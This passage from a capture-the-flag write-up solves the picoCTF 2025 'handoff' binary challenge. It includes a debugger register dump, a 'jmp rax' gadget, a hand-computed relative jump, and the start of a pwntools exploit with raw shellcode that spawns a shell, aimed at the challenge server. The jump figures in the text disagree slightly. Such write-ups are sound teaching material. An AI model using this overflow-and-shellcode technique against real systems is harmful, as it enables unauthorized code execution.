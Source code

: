 ```
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffdbb4  →  0x0000000a46464646 ("FFFF\n"?)
$rbx   : 0x00007fffffffdce8  →  0x00007fffffffe070  →  "/home/vsingh/Downloads/CTF/picoCTF_2025/pwn/handof[...]"
$rcx   : 0xa464646         
$rdx   : 0xfbad2288        
$rsp   : 0x00007fffffffd8d0  →  "off/handoff"
$rbp   : 0x00007fffffffdbc0  →  0x00007fffffffdbd0  →  0x0000000000000001
$rsi   : 0xa464646         
$rdi   : 0x00007ffff7f95720  →  0x0000000000000000
$rip   : 0x00000000004013ed  →  <vuln+01c4> mov BYTE PTR [rbp-0x5], 0x0
$r8    : 0x00000000004052a5  →  "BBBCCCCCCCCDDDDDDDDEEEEEEEE\n"
$r9    : 0x0               
$r10   : 0x00007ffff7f3afe0  →  0x0000000100000000
$r11   : 0x246             
$r12   : 0x0               
$r13   : 0x00007fffffffdcf8  →  0x00007fffffffe0ac  →  "SHELL=/bin/bash"
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$r15   : 0x0               
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
```
The `$rax` register contains the stack address of the start of the feedback buffer. 

We can use the `jmp rax` gadget to jump to this address and begin the shellcode execution. 
```
0x000000000040116c : jmp rax
```
Since the feedback buffer obviously does not have enough space for the entire shellcode we can perform a relative jump to the shellcode in the `msg` char array in the first entry. 
We can do:
```
(feedback array address) - (msg array address) - (length of jmp instruction)
0x7fffffffdbb4 - 0x7fffffffd8e8 - 0x5 = 0xfffffd2f (-721)
```
The assembly code for this would be:
```asm
E9 2f FD FF FF   ; JMP -716
```
We can write this in bytes as:
```
jmp_bytes = b'\xe9\x2f\xfd\xff\xff'
```
## Summary
We can input shellcode in the `msg` char array of the first entry. Then we can take advantage of the buffer overflow vulnerability and overwrite the return address and modify it to the address of the `jmp rax` ROP gadget. Since `$rax` contains the address of the beginning of the feedback buffer, we need to input `jmp_bytes` before we overflow. 
## Full-Solution
```python
from pwn import *

# Set up the connection
context.arch = 'amd64'
context.log_level = 'critical'

p = remote('shape-facility.picoctf.net', 50924)

shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
jmp_rax = 0x40116c
```